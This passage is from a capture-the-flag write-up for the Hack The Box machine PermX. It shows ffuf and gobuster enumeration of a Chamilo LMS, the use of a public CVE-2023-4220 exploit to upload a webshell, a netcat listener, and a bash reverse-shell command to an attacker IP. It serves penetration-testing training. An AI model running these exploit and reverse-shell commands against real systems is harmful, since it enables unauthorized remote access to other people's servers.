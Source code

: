Unfortunately, the domain has many empty subdomains, so I filtered the `http` response size with the `-fs` flag:
```shell
$ ffuf -u http://permx.htb/ -H 'Host: FUZZ.permx.htb' -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt:FUZZ -c -fs 250-300

---------------------------------------
www                     [Status: 200, Size: 36182, Words: 12829, Lines: 587, Duration: 17ms]
lms                     [Status: 200, Size: 19347, Words: 4910, Lines: 353, Duration: 57ms]
---------------------------------------
```
I found the subdomain `lms.permx.htb` and on their is a service called **Chamilo**, which is a E-Learning & Collaboration-Software.

Again, I will execute `gobuster` to find interesting files/directories:
```shell
$ gobuster dir -u "http://lms.permx.htb" -w /usr/share/wordlists/dirb/big.txt

===============================================================
/.htpasswd            (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/LICENSE              (Status: 200) [Size: 35147]
/app                  (Status: 301) [Size: 312] [--> http://lms.permx.htb/app/]
/bin                  (Status: 301) [Size: 312] [--> http://lms.permx.htb/bin/]
/certificates         (Status: 301) [Size: 321] [--> http://lms.permx.htb/certificates/]
/documentation        (Status: 301) [Size: 322] [--> http://lms.permx.htb/documentation/]
/favicon.ico          (Status: 200) [Size: 2462]
/main                 (Status: 301) [Size: 313] [--> http://lms.permx.htb/main/]
/plugin               (Status: 301) [Size: 315] [--> http://lms.permx.htb/plugin/]
/robots.txt           (Status: 200) [Size: 748]
/server-status        (Status: 403) [Size: 278]
/src                  (Status: 301) [Size: 312] [--> http://lms.permx.htb/src/]
/vendor               (Status: 301) [Size: 315] [--> http://lms.permx.htb/vendor/]
/web                  (Status: 301) [Size: 312] [--> http://lms.permx.htb/web/]
===============================================================
```
And indeed, `gobuster` found some interesting stuff. The `README.md` and `LICENSE`file looks like this is a typical `git` repository.

I looked into the `README.md` file and I found a version number: `1.11.x`

I researched for existing vulnerabilities and found a Proof of Concept (PoC) on [Github](https://github.com/Rai2en/CVE-2023-4220-Chamilo-LMS) for the version `1.11.24`. We do not know if our web server is running a version below `1.11.24`, but  we can try to create a webshell with it. Therefore we can clone the `git` repository:
```shell
$ git clone https://github.com/Rai2en/CVE-2023-4220-Chamilo-LMS.git
$ cd CVE-2023-4220-Chamilo-LMS/
```
I executed the `main.py` script with our subdomain url `lms.permx.htb` and execute the action `scan` to check, if our Chamilo instance is vulnerable:
```shell
$ python3 main.py -u http://lms.permx.htb -a scan
```
The result indicated, that the instance of Chamilo is vulnerable, so we can try to execute the exploit and create a webshell with the `webshell` action:
```shell
$ python3 main.py -u http://lms.permx.htb -a webshell
```
The upload was successful and I was able to send commands to the webshell. I used that to create a reverse shell and therefore started my `netcat` listener on port `5555`:
```shell
nc -lnvp 5555
```
And then I URL encoded the following reverse shell command with [CyberChef](https://cyberchef.org): 
```shell
bash -c "/bin/bash -i >& /dev/tcp/10.10.14.151/5555 0>&1"
```